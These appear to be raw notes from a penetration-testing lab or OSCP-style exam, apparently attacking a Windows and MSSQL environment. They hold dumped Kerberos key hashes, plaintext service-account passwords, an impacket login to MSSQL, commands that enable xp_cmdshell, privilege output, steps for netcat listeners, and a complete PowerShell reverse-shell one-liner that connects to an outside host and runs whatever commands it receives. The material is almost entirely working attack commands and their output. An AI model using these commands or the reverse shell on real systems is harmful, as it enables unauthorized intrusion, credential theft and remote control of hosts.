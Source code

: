 ```c
    // * Primary:Kerberos-Newer-Keys *
    //     Default Salt : MS01.OSCP.EXAMsupport
    //     Default Iterations : 4096
    //     Credentials
    //     aes256_hmac       (4096) : d518296e95853069374397940d8a810ab11d0a70648227545ee884feb2749c11
    //     aes128_hmac       (4096) : 424c27ea403062a44c565328cd341dd5
    //     des_cbc_md5       (4096) : 767adc4c3779a445

    // * Packages *
    //     NTLM-Strong-NTOWF

    // * Primary:Kerberos *
    //     Default Salt : MS01.OSCP.EXAMsupport
    //     Credentials
    //     des_cbc_md5       : 767adc4c3779a445





web_svc
Diamond1
sql_svc
Dolphin1

// connect to mssql
impacket-mssqlclient sql_svc:Dolphin1@10.10.110.148 -windows-auth
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;
EXEC xp_cmdshell 'whoami /priv';
// nt service\mssql$sqlexpress 
// Privilege Name                Description                               State      
// ============================= ========================================= ========   
// SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
// SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
// SeShutdownPrivilege           Shut down the system                      Disabled   
// SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
// SeUndockPrivilege             Remove computer from docking station      Disabled   
// SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
// SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
// SeCreateGlobalPrivilege       Create global objects                     Enabled    
// SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
// SeTimeZonePrivilege           Change the time zone                      Disabled  


drop nc64.exe on tunnel box
open listern on 4444

open listener on 4445 kali

// reverse shell from M@02 to MS01 to kali
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient(''192.168.150.147'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> ''; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'


SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
```